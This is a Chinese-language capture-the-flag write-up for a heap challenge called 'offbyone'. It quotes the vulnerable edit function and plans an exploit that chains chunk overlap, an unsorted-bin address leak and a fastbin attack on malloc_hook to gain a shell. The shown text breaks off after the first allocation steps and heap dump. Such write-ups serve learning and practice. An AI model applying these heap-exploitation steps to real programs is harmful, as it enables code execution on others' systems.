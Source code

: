```yaml
---
title: CTF | offbyone writeup
date: 2018-09-27 22:02:10
draft: false
---
```

`offbyone`  `fastbin attack` `chunk overlap` 


题目就叫 `offbyone`，是 `xman` 小姐姐给的，不清楚出处...

`offbyone` 漏洞的大致思路：
1. 改写下一个块的`size`
2. 改写下一个块的`pre inuse`位
`chunk overlap `：
1. Overwrite next chunk’s size => extend free chunk
2. Overwrite next chunk’s size => extend allocated chunk
3. Overwrite next chunk’s size => shrink free chunk

这道题的 `offbyone` 比较宽松，可以写任意字节，而不仅仅是 `null`
### 程序分析
`edit` 函数有 `offbyone`：
```c
  if ( v1 >= 0 && v1 <= 15 && ptrs[v1] )
  {
    puts("your note:");
    v2 = strlen(ptrs[v1]);
    read(0, (void *)ptrs[v1], v2);
    puts("done.");
  }
```


### 利用思路
通过 `offbyone` 实现` chunk overlap`,利用 `unsorted bin `切分操作 `leak address`, 再利用 `fastbin attack` 构造 `fake chunk` 修改 `malloc_hook`, 最后 `getshell`
有几个关键的点：
1. `fastbin attack` 任意地址写
2. 改写 `size` 域，扩大后面一个，造成 `chunk overlapping` 堆块重叠，利用其中一个堆块对另一个堆块读写
3. `one_gadget`不好用->`malloc_printf` (可以通过 `double free` 触发，这样里面调用 `malloc` 函数) 
4. 利用 `unsorted bin `切分操作，让 `chunk` 写入 `fd,bk` 指针,然后泄露地址
5. 对 `size` 进行检查，只检查低 `32` 位。
6. `malloc chunk `时需要时`0x.8`的格式，这样才会覆盖到 `pre_size`,比如 `0x18`，进行对齐的时候直接对齐到 `0x20`，可以使用下一个 `chunk` 的前八个字节。在通过 `offbyone`,就可以改到 `pre_inuse` 位。但是如果是 `0x20`，就会对齐到 `0x30`,`offbyone` 盖不到。

### 利用过程
#### leak address
首先 `malloc` 5 个 `chunk`
```c
add(0x28,'a'*0x28)#0 
add(0xf8,'a'*0xf8)#1
add(0x68,'a'*0x68)#2
add(0x60,'a'*0x60)#3
add(0x60,'a'*0x60)#4
```
```python
gef➤  heap chunks
Chunk(addr=0x558de32e6010, size=0x30, flags=PREV_INUSE)
    [0x0000558de32e6010     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61     aaaaaaaaaaaaaaaa]
Chunk(addr=0x558de32e6040, size=0x100, flags=PREV_INUSE)
    [0x0000558de32e6040     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61     aaaaaaaaaaaaaaaa]
Chunk(addr=0x558de32e6140, size=0x70, flags=PREV_INUSE)
    [0x0000558de32e6140     61 61 61 61 61 61 61 61 61 61 61 61 61 61 61 61     aaaaaaaaaaaaaaaa]
Chunk(addr=0x558de32e61b0, size=0x70, flags=PREV_INUSE)
```